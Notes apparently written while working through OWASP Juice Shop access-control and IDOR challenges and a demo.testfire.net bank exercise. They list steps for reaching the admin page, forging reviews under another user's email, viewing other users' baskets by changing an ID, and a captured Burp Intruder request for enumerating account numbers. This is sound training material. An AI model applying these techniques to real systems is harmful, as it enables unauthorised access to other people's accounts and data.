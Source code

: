 # Access Controls

## Access the administration section of the store.
Login and manually try URLS
URL = http://localhost:3000/#/administration
Or 
view the juice-shop.min.js and find the /administration route in the js



## Get rid of all 5-star customer feedback.
Delete five-stars from the adminstration page

## Post some feedback in another users name.	
Intercept a review request http://localhost:3000/rest/product/23/reviews
Modify json with different users email `{"message":"Fake Review","author":"morty@juice-sh.op"}`
*The score-board check isn't working*


## Change the href of the link within the O-Saft product description into http://kimminich.de.
*come back*


## IDOR Solutions

## Access someone else's basket. JuiceShop
Add items to basket
Intercept Request to view basket 
http://localhost:3000/rest/basket/4
IDOR change number to 1
Other users basket is displayed

## Account History http://demo.testfire.net/bank/account.aspx
intruder
```
POST /bank/account.aspx HTTP/1.1
Host: demo.testfire.net
Content-Length: 23
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3488.0 Safari/537.36 autochrome/red
Origin: http://demo.testfire.net
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://demo.testfire.net/bank/main.aspx
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: amSessionId=15463717023; ASP.NET_SessionId=sek2c5bdxjyg4h45r5io3h45; amUserInfo=UserName=anNtaXRo&Password=RGVtbzEyMzQ=; amUserId=100116014; amCreditOffer=CardType=Gold&Limit=10000&Interest=7.9
Connection: close

listAccounts=10011601§40§

```
* Sniper
* Payload Type Number
* from 40 to 99
* sort by length

